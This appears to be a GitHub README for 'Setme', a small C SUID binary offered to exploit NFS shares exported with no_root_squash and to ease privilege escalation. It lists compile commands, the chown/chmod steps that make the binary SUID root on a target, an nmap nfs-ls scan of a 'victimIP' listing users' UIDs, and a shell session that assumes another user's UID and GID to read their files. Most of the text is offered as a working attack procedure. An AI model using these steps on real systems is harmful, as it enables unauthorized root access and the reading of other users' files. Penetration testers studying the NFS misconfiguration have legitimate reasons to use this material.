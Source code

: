 # Setme

**A simple binary made in C to make exploitation of insecure NFS systems easier from a Linux host. Alternatively this quick nifty tool can be used with privilege escalation vectors such as privileged write/execution on a system, to simplify escalation and allow for stability during exploitation of said vector.**  
This one binary avoids having to add users and groups (and later deleting) when going through many different users NFS directories. It allows for root access and inheritance of permissions through SUID. Drop in a no_root_squash nfs directory,compile through the mounted nfs (or on your host system) and execute the finished binary on target machine to give yourself root.
##

**Installation:**  
Download the file setMe.c from the repo.

Compile with:  
**gcc setme.c -o setMe**  
Then on target system:  
**sudo chown root:root ./setMe && sudo chmod gu+s ./setMe**

*Considerations:*  
I would make sure you keep access to this binary very restricted, or delete after use- but I guess you would know that since you made it this far ;) .

##
**Usage:  
sudo nmap --script=nfs-ls** victimIP  
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-09 15:08 MST  
Nmap scan report for 10.10.10.10  
Host is up (0.097s latency).  
Not shown: 993 closed ports  
PORT STATE SERVICE  
22/tcp open ssh  
25/tcp open smtp  
80/tcp open http  
110/tcp open pop3  
111/tcp open rpcbind  
| nfs-ls: Volume /home  
| access: Read Lookup NoModify NoExtend NoDelete NoExecute  
| PERMISSION **UID GID** SIZE TIME FILENAME  
| drwxr-xr-x 0 0 4096 2015-09-17T13:21:59 .  
| drwxr-xr-x 0 0 4096 2015-01-07T10:56:34 ..  
| drwxr-xr-x **1013 1013** 4096 2016-11-23T10:17:47 mike  
| drwxr-xr-x **1012 1012** 4096 2012-01-23T11:20:40 alex  
| drwxr-xr-x **1011 1011** 4096 2017-06-23T10:32:52 jeff  
| drwxr-xr-x **1014 1014** 4096 2015-12-1T21:11:51 james  
|_  
119/tcp open nntp  
2049/tcp open nfs
  
Say we want to get into **mikes files**, we execute our binary with:  
**./setMe 1013 1013**  
Then we can get varying levels of access to the files depending on how the permissions are set up on the share. 

**Another example:**  
pop@kali:/setme/$ **./setMe 1013 1013**  
$ **id**  
uid=1013 gid=1013 groups=1013  
  
  
We are now free to browse the nfs folder shares pertaining to the uid and gid in this shell.
To exit the shell type "exit".


